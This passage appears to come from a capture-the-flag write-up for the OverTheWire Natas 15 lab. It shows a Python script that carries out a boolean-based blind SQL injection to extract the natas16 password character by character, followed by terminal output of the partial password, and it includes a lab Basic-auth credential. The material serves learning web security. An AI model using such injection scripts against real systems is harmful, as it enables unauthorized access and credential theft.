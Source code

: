 ```python
    "Origin": "http://natas15.natas.labs.overthewire.org",
    "Authorization": "Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==",
    "Connection": "keep-alive",
    "Referer": "http://natas15.natas.labs.overthewire.org/",
    "Upgrade-Insecure-Requests": "1",
    "DNT": "1",
    "Sec-GPC": "1"
}

# Characters to try in the password
characters = ascii_letters + digits
password = ""

def check_password_complete(password):
    payload = f'a1d2m3i4n5" union select 1,2 from users where username="natas16" and password="{password}";-- -'
    params = {"username": payload}
    response = requests.get(url, headers=headers, params=params, auth=auth)
    return "This user exists" in response.text

while True:
    found_char = False
    for char in characters:
        test_password = password + char
        payload = f'a1d2m3i4n5" union select 1,2 from users where username="natas16" and password like binary "{test_password}%";-- -'
        params = {"username": payload}
        
        response = requests.get(url, headers=headers, params=params, auth=auth)
        
        if "This user exists" in response.text:
            password += char
            found_char = True
            print(f"Current password: {password}")
            
            # Check if the password is complete
            if check_password_complete(password):
                print(f"Full password found: {password}")
                found_char = False
            break
    
    if not found_char:
        print("Finished password brute-forcing.")
        break
```


```sh
┌──(kali㉿kali)-[~]
└─$ python3 sqli-bool-fin-pass.py
Current password: h
Current password: hP
Current password: hPk
Current password: hPkj
Current password: hPkjK
Current password: hPkjKY
Current password: hPkjKYv
Current password: hPkjKYvi
Current password: hPkjKYviL
Current password: hPkjKYviLQ
Current password: hPkjKYviLQc
Current password: hPkjKYviLQct
Current password: hPkjKYviLQctE
Current password: hPkjKYviLQctEW
```